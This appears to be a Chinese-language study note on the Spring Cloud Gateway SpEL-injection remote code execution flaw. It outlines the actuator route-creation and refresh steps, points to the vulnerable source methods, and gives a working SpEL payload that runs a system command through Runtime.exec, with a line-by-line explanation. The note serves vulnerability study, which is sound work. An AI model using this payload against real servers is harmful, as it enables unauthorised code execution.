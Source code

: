 # 漏洞原理

## 总的来说, 攻击者可以通过发送的数据包给Spring项目添加了网关(路由器)

> 而这个路由器, 最终只是远程代码执行

## 整个利用的关键过程如下:

```
1. 开启 Acutator, 可以通过接口列出路由(包括过滤器),例如:
/actuator/gateway/routes

2. 通过/gateway/routes/{id_route_to_create}创建路由

3.通过/actuator/gateway/refresh刷新路由

4. 当路由带有恶意的Filter的时候, 里面的spEL表达式就会被执行.

```

**其实SpEL表达式的目的也是为了在写成的时候灵活赋值, 但是 就像很不幸的是, 这种情况往往会被别人利用, 再如Log4j 漏洞也是因为 有个 `lookup` 来个程序灵活的赋值才导致的漏洞. **

对于本次的漏洞, 可以**找SpringCloudGateway的源码(注意: 看的是源码, 不是字节码)**, 里面有个文件叫 `ConfigurationService.java`, 利用有个`normalizeProperties` , 它会对参数进行处理,  而攻击者传入的就是一个可以被它执行的参数(类), `normalizeProperties会调用 normalize 方法`, 而 `normalize方法`是在另一个叫做`ShortcutConfigurable.java`文件中执行.

![image-20230410220423081](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410220423081.png)



![](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410221004176.png)



![image-20230410221226183](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230410221226183.png)



## 关键的poc

```
"value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
```

​		解读:

```
new String[]{\"id\"}  的作用是  攻击者创建一个字符串,  名为 id

(java.lang.Runtime).getRuntime().exec()   的作用是 执行 exec括号里的东西, 也就是字符串

getInputStream() 的作用即使得到 上面exec执行的结果

springframework.util.StreamUtils)的copyToByteArray类 , 能够将得到的记过转换成为 字节数组

最后, 最外层的new String 将字符数组转换成了 字符串  .

```
